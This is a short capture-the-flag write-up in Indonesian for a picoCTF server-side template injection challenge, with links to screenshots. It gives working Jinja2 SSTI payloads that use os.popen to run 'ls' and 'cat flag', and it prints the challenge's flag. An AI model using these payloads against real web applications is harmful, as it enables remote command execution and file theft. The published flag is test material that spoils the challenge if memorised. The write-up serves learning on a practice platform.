





Find the Flag 
https://play.picoctf.org/practice/challenge/492 

Hal-hal yang dilakukan 
1. Mendapatkan hint dari soal yaitu Server Side Template Injection yang berarti kita dapat membuat payload yang bisa memberikan kita flag
2. Mencoba {{7*7}} apakah benar akan muncul 49 dan ternyata benar
3. Menggunakan payload ini {{ self.__init__.__globals__.__builtins__.__import__('os').popen('ls').read() }} untuk mengetahui berada di directory mana dan isinya apa saja
4. Dan kita pun mengetahui dalam directori ini ada app.py dan juga flag requirement.txt 
5. Menggunakan payload ini {{ self.__init__.__globals__.__builtins__.__import__('os').popen('cat flag').read() }} untuk mengetahui isi dari flagnya
6. Dan didapatkan isi dari flagnya adalah "picoCTF{s4rv3r_s1d3_t3mp14t3_1nj3ct10n5_4r3_c001_4675f3fa}"

Bukti

#### Berhasil

